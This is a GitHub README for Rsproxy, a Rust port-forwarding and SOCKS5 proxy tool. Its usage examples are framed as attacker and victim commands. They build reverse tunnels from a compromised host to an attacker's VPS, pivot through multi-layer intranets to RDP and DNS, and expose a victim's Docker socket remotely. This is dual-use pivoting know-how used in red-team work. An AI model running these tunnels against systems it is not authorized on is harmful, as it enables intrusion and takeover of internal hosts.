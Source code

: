 # Rsproxy

Rsproxy is a lightweight port-forwarding and socks proxy tool written in Rust 🦀

## Build

The project is under development, so you need to build yourself.

```bash
git clone https://github.com/X1r0z/rsproxy
cd rsproxy
cargo build --release
```

## Feature

- TCP/UDP port forwarding
- Unix domain socket forwarding (e.g. `/var/run/docker.sock`)
- Multi network layer support
- TLS encryption support
- Socks5 proxy

## Usage

### TCP Port Forwarding

Listen on `0.0.0.0:8888` and `0.0.0.0:9999`, forward traffic between them.

*specify `127.0.0.1:PORT` to listen on local address*

```bash
./rsproxy fwd -l 8888 -l 9999
```

Listen on `0.0.0.0:8888`, forward traffic to a remote address.

```bash
./rsproxy fwd -l 8888 -r 10.0.0.1:9999
```

Connect `10.0.0.1:8888` and `10.0.0.2:9999`, forward traffic between them.

```bash
./rsproxy fwd -r 10.0.0.1:8888 -r 10.0.0.1:9999
```

A basic example of accessing an intranet address through port forwarding.

```bash
# on attacker's machine
./rsproxy fwd -l 8888 -l 9999

# on victim's machine
./rsproxy fwd -r 10.0.0.1:3389 -r vps:8888

# now attacker can access 10.0.0.1:3389 through vps:9999
```

A complex example, multi-layer proxy in the intranet.

```bash
# on machine A (10.0.0.1, 172.16.0.1)
./rsproxy fwd -r 10.0.0.10:3389 -l 7777

# on machine B (172.16.0.2, 192.168.1.1)
./rsproxy fwd -r 172.16.0.1:7777 -r 192.168.1.2:8888

# on machine C (192.168.1.2, DMZ)
./rsproxy fwd -l 8888 -r vps:9999

# on attacker's machine
./rsproxy fwd -l 9999 -l 33890

# now attacker can access 10.0.0.10:3389 through vps:33890
```

Note that the command on machine B need to be executed last. Because this mode will check the connectivity between the two remote addresses.

### UDP Port Forwarding

The usage of UDP port forwarding is similar to TCP, simply add `-u` flag.

This feature may be unstable.

Note that when using **reverse** UDP port forwarding, a handshake packet will be sent to keep the client address.

Example:

```bash
# on attacker's machine
./rsproxy fwd -l 8888 -l 9999

# on victim's machine
./rsproxy fwd -r 10.0.0.1:53 -r vps:8888
```

The victim's machine will send a handshake packet to `vps:8888`, which is the attacker's machine.

The attacker's machine will remember the client address, and forward the traffic to it when user connects to `vps:9999`.

**Because of the handshake packet, the parameters must be in order and cannot be swapped.**

Another example:

```bash
# on machine A (10.0.0.1, 192.168.1.1, intranet)
./rsproxy fwd -r 10.0.0.10:53 -l 7777

# on machine B (192.168.1.2, DMZ)
./rsproxy fwd -r 192.168.1.1:7777 -r vps:8888 # this command need to be executed last

# on attacker's machine
./rsproxy fwd -l 8888 -l 9999
```

The handshake packet will be sent from machine B to the attacker's machine (port 8888). Users can connect to the intranet through port 9999.

### Unix domain socket Forwarding

A Unix domain socket is a IPC (Inter-Process Communication) method that allows data to be exchanged between two processes running on the same machine.

`/var/run/docker.sock` and `/var/run/php-fpm.sock` are common Unix domain sockets.

You can forward Unix domain socket to a TCP port.

```bash
./rsproxy fwd -s /var/run/docker.sock -l 4444

# get docker version
curl http://127.0.0.1:4444/version
```

or in the reverse mode.

```bash
# on victim's machine
./rsproxy fwd -s /var/run/docker.sock -r vps:4444

# on attacker's machine
./rsproxy fwd -l 4444 -l 5555

# get docker version
curl http://vps:5555/version
```

### Socks Proxy

Rsproxy supports socks5 protocol (no authentication)

Forward socks proxy.

```bash
./rsproxy socks -l 1080
```

Reverse socks proxy.

```bash
# on attacker's machine
./rsproxy socks -l 7777 -l 8888

# on victim's machine
./rsproxy socks -r vps:7777

# now attacker can use socks proxy on vps:8888
```

## Reference

[https://github.com/EddieIvan01/iox](https://github.com/EddieIvan01/iox)
